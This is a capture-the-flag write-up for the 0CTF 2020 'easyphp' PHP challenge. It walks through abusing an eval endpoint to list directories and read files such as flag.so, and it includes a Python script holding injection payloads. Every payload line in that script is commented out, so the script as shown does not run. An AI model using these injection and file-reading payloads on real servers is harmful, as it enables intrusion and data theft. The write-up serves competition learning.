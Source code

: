 # easyphp | 0CTF Quals 2020

This was a php challenge where the website would just eval the code you provided in the get request.
At first I thought about using something like system or exec, but those functions and others like shell_exec were disabled. 
We can verify that by executing ```phpinfo();``` and checking the functions listed in ```disabled_function``` class.
So running any clever system code or something like a shell was out of question.
Also look out for `open_basedir` in the php configuration you get from `phpinfo();`. Luckily for us it was set to `/` so we could explore the file system easily.

Using ` __DIR__ `, `scandir`, we can quickly check which subdirectory the website is running. There was only `index.php` in `/var/www/html`.
In the `/` directory, we will find `flag.so` and `flag.h` (along with `.dockerenv` folder, `start.sh`) , catting out `flag.so` (you can use `highlight_file`) will give the flag as it was hardcoded in the binary.

`FLAG : flag{FFi_1s_qu1T3_DANg1ouS}`

```python
import requests
url = "http://pwnable.org:19260"
# payload = """echo $s = base64_encode(readfile("../../../flag.so"));"""
# payload = """$f = scandir("/var/www/html");var_dump($f);""" 
# payload = """$f = highlight_file('/start.sh');var_dump($f);"""
r = requests.Session()
print(payload)
print()
s = r.get(url+"?rh="+payload)
final = s.text
print(final)
r.close()
```